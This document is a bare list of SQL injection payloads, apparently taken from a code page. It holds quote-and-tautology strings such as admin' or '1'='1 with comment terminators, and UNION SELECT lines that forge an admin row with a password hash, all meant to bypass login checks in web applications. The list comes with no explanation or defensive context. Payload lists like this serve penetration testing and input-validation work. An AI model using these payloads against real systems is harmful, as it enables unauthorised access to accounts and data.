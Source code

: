 ```
' or 'x'='x
') or ('x')=('x
')) or (('x'))=(('x
" or "x"="x
") or ("x")=("x
")) or (("x"))=(("x
or 1=1
or 1=1--
or 1=1#
or 1=1/*
admin' --
admin' #
admin'/*
admin' or '1'='1
admin' or '1'='1'--
admin' or '1'='1'#
admin' or '1'='1'/*
admin'or 1=1 or ''='
admin' or 1=1
admin' or 1=1--
admin' or 1=1#
admin' or 1=1/*
admin') or ('1'='1
admin') or ('1'='1'--
admin') or ('1'='1'#
admin') or ('1'='1'/*
admin') or '1'='1
admin') or '1'='1'--
admin') or '1'='1'#
admin') or '1'='1'/*
1234 ' AND 1=0 UNION ALL SELECT 'admin', '81dc9bdb52d04dc20036dbd8313ed055
admin" --
admin" #
admin"/*
admin" or "1"="1
admin" or "1"="1"--
admin" or "1"="1"#
admin" or "1"="1"/*
admin"or 1=1 or ""="
admin" or 1=1
admin" or 1=1--
admin" or 1=1#
admin" or 1=1/*
admin") or ("1"="1
admin") or ("1"="1"--
admin") or ("1"="1"#
admin") or ("1"="1"/*
admin") or "1"="1
admin") or "1"="1"--
admin") or "1"="1"#
admin") or "1"="1"/*
1234 " AND 1=0 UNION ALL SELECT "admin", "81dc9bdb52d04dc20036dbd8313ed055
```
